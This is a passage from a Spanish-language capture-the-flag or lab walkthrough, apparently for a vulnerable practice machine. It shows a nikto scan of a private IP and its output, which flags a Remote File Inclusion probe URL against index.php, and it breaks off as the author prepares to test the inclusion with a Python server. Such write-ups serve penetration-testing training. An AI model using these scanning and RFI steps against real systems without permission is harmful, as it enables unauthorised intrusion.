Pero no va a funcionar, por lo que vamos a seguir investigando un poco mas.

## Escalate user www-data

### RFI

Si lanzamos un `nikto` para ver que posibles vulnerabilidades puede tener, veremos lo siguiente:

```shell
nikto -url 'http://<IP>/'
```

Info:

```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.5.59
+ Target Hostname:    192.168.5.59
+ Target Port:        80
+ Start Time:         2025-07-16 03:30:14 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /images/: Directory indexing found.
+ /index.php: Output from the phpinfo() function was found.
+ /index.php?page=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ 8102 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2025-07-16 03:31:04 (GMT-4) (50 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Veremos algo muy interesante en esta linea de aqui:

```
+ /index.php?page=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI)
```

Por lo que vemos nos esta diciendo que hay un `RFI` en dicho recurso web, vamos a probarlo con nuestro servidor de `python3` a ver si funciona.
